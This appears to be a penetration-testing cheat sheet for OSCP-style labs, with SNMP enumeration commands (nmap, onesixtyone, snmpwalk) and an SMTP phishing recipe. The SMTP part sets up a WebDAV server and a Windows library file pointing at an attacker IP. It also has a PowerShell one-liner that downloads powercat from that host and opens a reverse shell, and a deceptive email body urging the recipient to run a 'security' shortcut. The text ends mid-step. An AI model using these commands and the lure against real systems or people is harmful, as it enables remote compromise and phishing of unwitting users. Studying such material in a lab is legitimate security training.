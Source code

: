 ```


```

### <ins>161 - SNMP</ins>

```

1. Nmap: sudo nmap -sU --open -p 161 10.11.1.1-254 (find ip with SMTP open)

2. onesixtyone bruteforce tool: for ip in $(seq 1 254); do echo 10.11.1.$ip; done > ips then, onesixtyone -c community -i ips

3. Enumerating Entire MIB Tree: snmpwalk -c public -v1 -t 10 <IP>

4. Enumerating Windows Users: snmpwalk -c public -v1 <IP> 1.3.6.1.4.1.77.1.2.25

5. Enumerating Running Windows Processes: snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.4.2.1.2

6. Enumerating Open TCP Ports: snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.6.13.1.3

```

### <ins>25 - SMTP</ins>

```
1. To find Users: nmap --script smtp-enum-users.nse -p 25,465,587 <IP>
2. If Anonymous Login is allowed we can use Netcat to send Phishing emails through SMTP.

OSCP Mail Hack

Run WebDAv Server
1. wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/Desktop/pen200/relia/webdav/

On Windows setup config and shortcut

Make a file named "config.Library-ms"

<?xml version="1.0" encoding="UTF-8"?> <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library"> <name>@windows.storage.dll,-34582</name> <version>6</version> <isLibraryPinned>true</isLibraryPinned> <iconReference>imageres.dll,-1003</iconReference> <templateInfo> <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType> </templateInfo> <searchConnectorDescriptionList> <searchConnectorDescription> <isDefaultSaveLocation>true</isDefaultSaveLocation> <isSupported>false</isSupported> <simpleLocation> <url>http://192.168.45.219</url> </simpleLocation> </searchConnectorDescription> </searchConnectorDescriptionList> </libraryDescription>

Drop a powershell reverse shell into a shortcut key in the same folder, hope they click it:

powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.219:9090/powercat.ps1'); powercat -c 192.168.45.219 -p 4444 -e powershell"

Create a body for email

body.txt
---
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists
in the Git logs. I'll remove it for security reasons.
On an unrelated note, please install the new security features on your workstation.
For this, download the attached file, double-click on it, and execute the
configuration shortcut within. Thanks!
John

Make sure nc is setup and run this:
```